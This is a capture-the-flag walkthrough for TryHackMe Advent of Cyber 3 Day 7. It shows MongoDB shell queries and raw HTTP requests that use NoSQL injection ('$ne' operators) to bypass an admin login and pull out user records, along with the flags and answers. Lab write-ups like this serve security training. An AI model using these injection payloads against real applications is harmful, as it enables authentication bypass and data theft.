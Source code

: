 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 7
### References
* Tib3rius. (2021). TryHackMe - Advent of Cyber 3 - Day 7 Walkthrough [YouTube Video]. In YouTube. https://youtu.be/Fmw8ia0sMEc

## Interact with the MongoDB server to find the flag. What is the flag?
```bash
$ ssh thm@<MACHINE_IP> -p 2222
thm@<MACHINE_IP> password: tryhackme
thm@mongo-server:~$ mongo
> show databases
admin   0.000GB
config  0.000GB
flagdb  0.000GB
local   0.000GB
> use flagdb
switched to db flagdb
> db.getCollectionNames()
[ "flagColl" ]
> db.flagColl.find()
{ "_id" : ObjectId("618806af0afbc09bdf42bd6a"), "flag" : "THM{8814a5e6662a9763f7df23ee59d944f9}" }
> 
```

**Flag**: `THM{8814a5e6662a9763f7df23ee59d944f9}`
## Can you log into the application that Grinch Enterprise controls as `admin` and retrieve the flag?
* Modified request:
```http
POST /login HTTP/1.1
Host: <MACHINE_IP>
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://<MACHINE_IP>
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://<MACHINE_IP>/login
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3An5mfgw2iQV38JdLhHGhJi9pqIuZWZ59L.Ea2JWiFK6QK08nqlNsYtS1tLoWiTsDwq8jQIL5b3CsA
Connection: close

username=admin&password[$ne]=password
```
* `http://<MACHINE_IP>/flag`

**Flag**: `THM{b6b304f5d5834a4d089b570840b467a8}`
## Once you are logged in, use the gift search page to list all usernames that have `guest` roles. What is the flag?
* Modified request:
```http
GET /search?username[$ne]=admin&role=guest HTTP/1.1
Host: <MACHINE_IP>
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://<MACHINE_IP>/search
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3An5mfgw2iQV38JdLhHGhJi9pqIuZWZ59L.Ea2JWiFK6QK08nqlNsYtS1tLoWiTsDwq8jQIL5b3CsA
Connection: close
```

**Flag**: `THM{2ec099f2d602cc4968c5267970be1326}`
## Use the gift search page to perform NoSQL injection and retrieve the `mcskidy` record. What is the details record?
* Modified request:
```http
GET /search?username=mcskidy&role[$ne]=user HTTP/1.1
Host: <MACHINE_IP>
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://<MACHINE_IP>/search?username=mcskidy&role=user
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: connect.sid=s%3An5mfgw2iQV38JdLhHGhJi9pqIuZWZ59L.Ea2JWiFK6QK08nqlNsYtS1tLoWiTsDwq8jQIL5b3CsA
If-None-Match: W/"6e6-qHudxedQgEeOez/PbVUmml7RbVA"
Connection: close
```

**Answer**: `ID:6184f516ef6da50433f100f4:mcskidy:admin`
